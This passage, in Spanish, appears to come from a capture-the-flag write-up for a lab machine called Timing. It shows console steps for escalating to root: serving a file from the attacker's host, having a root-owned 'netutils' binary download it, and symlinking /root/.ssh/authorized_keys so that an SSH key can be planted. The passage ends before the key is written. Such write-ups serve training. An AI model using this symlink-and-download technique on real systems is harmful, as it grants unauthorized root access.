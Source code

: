 Nos pide una URL así que vamos a levantar un servidor web con python en nuestra máquina, pero primero creamos un archivo **`test.txt`** y luego pasaremos la url de nuestro archivo al binario **`netutils`**

```console
p3ntest1ng:~$ echo "this is a test" > test.txt
p3ntest1ng:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```console
...[snip]...
Enter Url: http://10.10.16.40/test.txt
Initializing download: http://10.10.16.40/test.txt
File size: 15 bytes
Opening output file test.txt
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 15 byte in 0 seconds. (0.04 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 2
aaron@timing:~$ ls -la
...[snip]...
-rw-r--r-- 1 root  root    15 May 23 00:29 test.txt
-rw-r----- 1 root  aaron   33 May 22 21:01 user.txt
```

Lo que ha hecho el binario es descargar nuestro archivo, y como vemos en el output, el propietario es root...

Por lo tanto, algo que se me ocurre es tratar de inyectar una clave pública SSH en el **`authorized_keys`** del usuario **`root`**.
Para ello lo primero que podemos hacer es crear un enlace simbólico a este recurso:

```console
aaron@timing:~$ ln -s /root/.ssh/authorized_keys wild
aaron@timing:~$ ls -la
total 36
drwxr-x--x 5 aaron aaron 4096 Apr  8 15:20 .
drwxr-xr-x 3 root  root  4096 Dec  2 09:55 ..
lrwxrwxrwx 1 root  root     9 Oct  5  2021 .bash_history -> /dev/null
-rw-r--r-- 1 aaron aaron  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 aaron aaron 3771 Apr  4  2018 .bashrc
drwx------ 2 aaron aaron 4096 Nov 29 01:34 .cache
drwx------ 3 aaron aaron 4096 Nov 29 01:34 .gnupg
drwxrwxr-x 3 aaron aaron 4096 Nov 29 01:34 .local
-rw-r--r-- 1 aaron aaron  807 Apr  4  2018 .profile
lrwxrwxrwx 1 root  root     9 Oct  5  2021 .viminfo -> /dev/null
lrwxrwxrwx 1 aaron aaron   26 Apr  8 15:20 wild -> /root/.ssh/authorized_keys
-rw-r----- 1 root  aaron   33 Apr  8 13:34 user.txt
```
